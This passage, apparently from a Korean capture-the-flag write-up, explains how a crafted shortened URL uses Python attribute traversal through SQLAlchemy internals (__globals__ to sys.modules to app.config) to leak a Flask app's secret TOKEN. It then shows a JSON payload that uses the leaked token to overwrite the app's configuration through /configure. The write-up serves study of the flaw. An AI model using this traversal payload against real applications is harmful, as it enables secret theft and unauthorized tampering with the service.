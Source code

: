 이후 `main.py` 즉, `__main__` 모듈에 있는 `app.config["TOKEN"]` 값을 확인하기 위해 아래의 URL을 단축 URL로 생성합니다.

```
https://x.com/{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}
```

그 다음 URL `/all` 을 요청하면 다음과 같이 `app.config["TOKEN"]` 의 값이 출력된 것을 확인할 수 있습니다.

![image.png](images/image-014.png)

이를 통해 엔드포인트 `/configure` 의 요청 페이로드를 아래의 JSON 데이터로 전송하면 앱의 설정을 변경할 수 있게 됩니다.

```python
{
    "token": "04f54b5f21e1b2a265b8c13e6e4b038e5adee6fc1a5fe03145b87c92adf1f4458cefd15d9d7a024e59d9fb9fdb6241487de66412a223a5f02be334af5fb7250e",
    "base_url": "",
    "ukwargs": {},
    "pkwargs": {}
}
```

이후 위 요청 페이로드의 값들은 다음과 같이 `global` 변수(`base_url`, `ukwargs`, `pkwargs`)의 값으로 변경되는 것을 확인할 수 있습니다.

